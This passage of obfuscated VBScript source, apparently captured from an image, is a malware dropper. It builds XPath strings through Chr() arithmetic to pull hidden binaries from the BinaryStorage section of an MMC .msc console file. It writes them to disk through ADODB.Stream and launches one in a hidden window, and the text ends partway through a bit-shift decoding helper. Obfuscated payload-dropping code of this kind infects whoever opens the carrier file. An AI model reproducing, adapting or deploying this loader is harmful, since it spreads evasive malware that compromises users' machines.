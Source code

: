 ```
Set aZPHxtz4=RTcxFmy.selectNodes( Chr(47)&Chr(&H4d)&Chr(77)&"C"&Chr(95)&Chr(Int("&H43"))&"o"&Chr(Int("110"))&Chr(&H73)&Chr(Int("111"))&"l"&Chr(&H65)&Chr(Int("&H46"))&"i"&Chr(5094-4986)&Chr(101)&Chr(Int("47"))&Chr(331-265)&Chr(105)&Chr(Int("&H6e"))&Chr(Int("&H61"))&Chr(&H72)&Chr(Int("121"))&Chr(&H53)&Chr(116)&"o"&"r"&Chr(-1088+1185)&Chr(2152-2049)&Chr(266943/2643)&Chr(Int("47"))&Chr(-385+451)&Chr(105)&Chr(Int("&H6e"))&Chr(Int("&H61"))&Chr(114)&Chr(Int("&H79"))&Chr(91)&"@"&Chr(Int("78"))&Chr(Int("97"))&Chr(&H6d)&Chr(&H65)&Chr(Int("&H3d"))&Chr(3877-3838)&Chr(Int("67"))&Chr(&H4f)&Chr(78)&Chr(83)&Chr(79)&Chr(Int("&H4c"))&Chr(Int("69"))&Chr(419-324)&"M"&Chr(Int("&H45"))&Chr(Int("78"))&"U"&Chr(Int("39"))&Chr(Int("&H5d")) ) 
Ze1C=aZPHxtz4(0).text
Set aZPHxtz4 = RTcxFmy.selectNodes( Chr(&H2f)&Chr(-1536+1613)&Chr(4928/64)&Chr(67)&Chr(345-250)&Chr(Int("67"))&Chr(111)&"n"&Chr(&H73)&Chr(Int("&H6f"))&Chr(&H6c)&Chr(Int("101"))&Chr(145110/2073)&Chr(&H69)&Chr(108)&Chr(Int("101"))&Chr(Int("&H2f"))&Chr(66)&Chr(&H69)&Chr(1514-1404)&Chr(Int("97"))&Chr(Int("&H72"))&Chr(Int("121"))&Chr(83)&Chr(212744/1834)&Chr(&H6f)&Chr(Int("114"))&Chr(Int("97"))&Chr(&H67)&Chr(-749+850)&Chr(-3015+3062)&Chr(Int("&H42"))&"i"&Chr(&H6e)&Chr(Int("&H61"))&Chr(114)&Chr(Int("&H79"))&Chr(Int("91"))&Chr(&H40)&Chr(Int("&H4e"))&Chr(&H61)&Chr(109)&Chr(101)&Chr(&H3d)&Chr(-548+587)&Chr(67)&Chr(Int("&H4f"))&Chr(3379-3301)&"S"&"O"&Chr(-1145+1221)&Chr(Int("&H45"))&"_"&Chr(-626+706)&Chr(Int("65"))&Chr(78)&"E"&Chr(39)&Chr(Int("93")) ) 
JozMh9jg=aZPHxtz4(0).text
AnZUOdqFuMEw=Xk7fbp8v(Ze1C)
s4fr2y4Q7lvQ=Xk7fbp8v(JozMh9jg)
Dim cHh5wARUext
Set cHh5wARUext=CreateObject(Chr(65)&Chr(&H44)&Chr(Int("&H4f"))&Chr(68)&Chr(4574-4508)&Chr(46)&"S"&Chr(Int("&H74"))&Chr(6960-6846)&Chr(Int("101"))&Chr(Int("&H61"))&Chr(Int("109")))
cHh5wARUext.Type=1
cHh5wARUext.Open 
cHh5wARUext.Write AnZUOdqFuMEw
cHh5wARUext.SaveToFile gwqhhV,2
Dim BKzG1ldRw7
Set BKzG1ldRw7=CreateObject(Chr(65)&Chr(&H44)&Chr(Int("&H4f"))&Chr(68)&Chr(4574-4508)&Chr(46)&"S"&Chr(Int("&H74"))&Chr(6960-6846)&Chr(Int("101"))&Chr(Int("&H61"))&Chr(Int("109")))
BKzG1ldRw7.Type=1
BKzG1ldRw7.Open 
BKzG1ldRw7.Write s4fr2y4Q7lvQ
BKzG1ldRw7.SaveToFile JJNe,2
AgUvcCuHzzbl.run """" & gwqhhV & """" & Chr(Int("32"))&Chr(&H74)&Chr(&H20)&Chr(&H38)&"."&Chr(56)&Chr(Int("46"))&Chr(Int("&H38"))&"."&Chr(-129+185),0,false
End Function
Public Function i9Vu0(ByVal Value,ByVal Shift)
i9Vu0=Value
If Shift>0 Then
If Value>0 Then
i9Vu0=Int(i9Vu0/(2^Shift))
Else
If Shift>31 Then
i9Vu0=0
Else
i9Vu0=i9Vu0 And &H7FFFFFFF
i9Vu0=Int(i9Vu0/(2^Shift))
i9Vu0=i9Vu0 Or 2^(31-Shift)
End If
End If
End If
End Function
Public Function PIvwo4QDjBC(ByVal Value,ByVal Shift)
PIvwo4QDjBC=Value
If Shift>0 Then
Dim i 
Dim m 
For i=1 To Shift
m=PIvwo4QDjBC And &H40000000
PIvwo4QDjBC=(PIvwo4QDjBC And &H3FFFFFFF)*2
If m<>0 Then
PIvwo4QDjBC=PIvwo4QDjBC Or &H80000000
```